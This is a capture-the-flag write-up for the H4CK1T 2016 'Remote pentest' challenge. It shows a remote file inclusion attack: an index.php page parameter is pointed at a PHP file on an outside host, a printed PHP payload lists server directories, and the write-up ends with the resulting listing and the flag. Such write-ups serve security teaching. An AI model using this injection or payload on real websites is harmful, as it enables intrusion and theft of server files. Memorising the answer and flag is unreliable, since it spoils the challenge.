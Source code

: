 #Write-up Remote pentest (Mexico) - H4CK1T CTF 2016

Challenge text:
Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !

Challenge URL:
>http://91.231.84.36:9150

The challenge is to test the remote website for any vulnerabilities. After some searching I found the website was vulnerable to PHP injection.
I tested this by uploading my TXT-file with PHP code to a webserver. Then I opened the TXT-file on the website and saw a listing of files.

The injection on the website happens as follows:
> http://91.231.84.36:9150/index.php?page=http://whoisdere.r4u.nl/hack.txt?

Normally it would show page=about or page=services or page=contact, but now we have injected another file from another host, including the code.
This results in the following PHP-code to be executed on the website:

`<?php

$dir = "/var/www/srv/www";
$dh  = opendir($dir);
while (false !== ($filename = readdir($dh))) {
    $files[] = $filename;
}

sort($files);
print_r($files);
rsort($files);
print_r($files);?>`

All files in the folder /var/www/srv/www are printed, where one of the files is: sup3r_$3cr3t_f1le.php.

`Array
(
    [0] => .
    [1] => ..
    [2] => .htaccess
    [3] => about.php
    [4] => contact.php
    [5] => css
    [6] => fonts
    [7] => index.php
    [8] => js
    [9] => php.ini
    [10] => services.php
    [11] => sup3r_$3cr3t_f1le.php
)
Array
(
    [0] => sup3r_$3cr3t_f1le.php
    [1] => services.php
    [2] => php.ini
    [3] => js
    [4] => index.php
    [5] => fonts
    [6] => css
    [7] => contact.php
    [8] => about.php
    [9] => .htaccess
    [10] => ..
    [11] => .
)`

Obviously, we know this folder as the default apache folder is /var/www/. From there we can continuously change the code, so another subfolder can be viewed. Eventually you will find the folder with this file.

By browsing to the file sup3r_$3cr3t_f1le.php, you will find the flag:
> h4ck1t{g00d_rfi_its_y0ur_fl@g}
